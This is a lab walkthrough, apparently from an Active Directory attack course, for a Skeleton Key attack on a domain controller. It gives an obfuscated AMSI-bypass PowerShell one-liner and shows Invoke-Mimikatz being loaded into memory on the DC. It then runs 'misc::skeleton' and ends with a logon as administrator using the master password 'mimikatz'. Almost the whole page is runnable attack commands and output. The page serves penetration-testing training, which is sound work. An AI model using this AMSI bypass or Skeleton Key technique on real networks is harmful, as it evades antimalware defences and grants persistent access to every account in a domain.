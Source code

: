```yaml
---
description: >-
  Task - Use Domain Admin privileges obtained earlier to execute the Skeleton
  Key attack.
---
```


# Obj 10 Skeleton Key

{% hint style="danger" %}
Use this attack with caution! It has the potential to break the DC!
{% endhint %}

{% hint style="success" %}
We can simply use the following mimikatz command to execute the attack. Note that the command needs to be run with Domain Admin privileges. We could also use SafetyKatz or any other tool for the attack. First we need to bypass AMSI and load mimikatz in memory on the DC:
{% endhint %}

### Create a new PSSession to the DC

```
PS C:\AD\Tools\Tools> $sess = New-PSSession dcorp-dc.dollarcorp.moneycorp.local
```

### Enter the session

```
PS C:\AD\Tools\Tools> Enter-PSSession -Session $sess
```

### Run the AMSI script

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

### From our local machine we can load mimikatz into memory on the DC

```
Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimikatz.ps1 -Session $sess
```

### Now we can enter back into the session and run the attack

```
PS C:\AD\Tools\Tools> Enter-PSSession -Session $sess
```

### Skeleton Key Attack

```
Invoke-Mimikatz -Command '"privilege::debug""misc::skeleton"'
```

### Now we can log on to any machine as any user unless the DC is restarted&#x20;

{% hint style="warning" %}
Use mimikatz as the password
{% endhint %}

```
PS C:\AD\Tools> Enter-PSSession -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Credential dcorp\administrator
[dcorp-dc]: PS C:\Users\Administrator\Documents> whoami
dcorp-dc\administrator
[dcorp-dc]: PS C:\Users\Administrator\Documents> exit
```
